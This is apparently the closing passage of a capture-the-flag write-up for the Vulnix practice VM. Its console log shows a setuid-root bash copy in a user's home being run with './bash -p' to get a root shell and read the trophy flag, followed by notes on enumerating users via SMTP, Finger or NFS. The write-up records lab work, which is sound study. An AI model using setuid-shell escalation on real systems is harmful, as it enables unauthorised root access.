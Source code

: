 ```console
* Documentation:  https://help.ubuntu.com/

System information as of Mon Oct 31 04:41:47 GMT 2016

System load:  0.0              Processes:           90
Usage of /:   93.5% of 773MB   Users logged in:     0
Memory usage: 7%               IP address for eth0: 192.168.1.72
Swap usage:   0%

=> / is using 93.5% of 773MB

Graph this data and manage this system at https://landscape.canonical.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Mon Oct 31 04:31:08 2016 from 192.168.1.71
vulnix@vulnix:~$ ls -al
total 1180
drwxr-x--- 5 vulnix vulnix    4096 Oct 31 04:41 .
drwxr-xr-x 4 root   root      4096 Sep  2  2012 ..
-rwsrwxrwx 1 root   root   1171072 Oct 31 04:41 bash
-rw------- 1 vulnix vulnix       0 Oct 31 04:31 .bash_history
-rw-r--r-- 1 vulnix vulnix     220 Apr  3  2012 .bash_logout
-rw-r--r-- 1 vulnix vulnix    3486 Apr  3  2012 .bashrc
drwx------ 2 vulnix vulnix    4096 Oct 31 04:09 .cache
-rw-r--r-- 1 vulnix vulnix     675 Apr  3  2012 .profile
drwxr-xr-x 2 vulnix vulnix    4096 Oct 31 04:09 .ssh
vulnix@vulnix:~$ ./bash -p
./bash: /lib/i386-linux-gnu/libtinfo.so.5: no version information available (required by ./bash)
bash-4.4# whoami
root
bash-4.4# ls /root
trophy.txt
bash-4.4# cat /root/trophy.txt
cc614640424f5bd60ce5d5264899c3be
```

_____________________________________________________________________________

This VM isn't the easiest, I wasn't able to find about user `user` due to missing SMTP enumeration. Also the trick where I needed to restart the VM stalled me for a long time. Still a pretty fun challenge.

#### Final notes

* Enumeration is important, without knowing there's a user called `user` you most likely won't be able to solve this VM. Doesn't matter which service you use, you can enumerate SMTP, Finger, NFS, ...
* Restarting the VM shouldn't be done via the VMware (or whatever hypervisor you use) since it's considered not part of the attack surface. A workaround for that is that you can reboot the VM with the current privileges like through `sudo`.

\-Abatchy


